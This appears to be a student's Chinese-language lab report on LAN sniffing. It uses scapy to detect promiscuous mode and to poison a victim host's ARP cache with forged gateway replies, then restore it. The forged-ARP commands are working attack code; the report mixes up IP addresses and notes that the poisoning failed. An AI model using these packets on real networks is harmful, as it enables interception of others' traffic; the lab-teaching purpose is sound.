






# 实验四 网络监听
## 网络拓扑
 - 攻击者主机
    - 08:00:27:23:92:50/eth0
    - 176.16.222.108
 - 受害者主机
    - 08:00:27:0e:34:8d/eth0
    - 176.16.222.111
 - 网关
    - 08:00:27:3a:9d:91/enp0s10
    - 176.16.222.1
## 实验过程
### 实验前准备
- 在攻击者主机上提前安装好 scapy 
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


### 实验一: 检测局域网中的异常终端
- 检测受害者主机上的 混杂模式 是否启动.
```
ip link show eth0
```

-  在攻击者主机上开启`scapy`并在 `scapy`的交互式终端输入以下代码回车执行
```
sudo scapy
pkt = promiscping("172.16.222.111")
```


- 回到受害者主机回到受害者主机上开启网卡的『混杂模式』,注意上述输出结果里应该没有出现 `PROMISC` 字符串,手动开启该网卡的「混杂模式」.
```
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

- 回到攻击者主机上的 scapy 交互式终端继续执行命令,观察两次命令的输出结果差异
```
sudo scapy
pkt = promiscping("172.16.222.111")
```

### 实验二:手工单步毒化目标主机的arp缓存
```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求

arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="176.16.222.1")


# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```

```
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 176.16.222.111
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="176.16.222.1", pdst="176.16.222.111", hwdst="08:00:27:23:92:50")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
```
ip neigh
```

- 不知道为什么一直毒化失败
- 回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="176.16.222.1", hwsrc="08:00:27:3a:9d:91", pdst="176.16.222.111", hwdst="08:00:27:0e:34:8d")
sendp(restorepkt1, count=100, inter=0.2)
```
伪装网关给受害者发送ARP响应

- 此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 176.16.222.1 
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

## 参考资料
[实验四课件](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)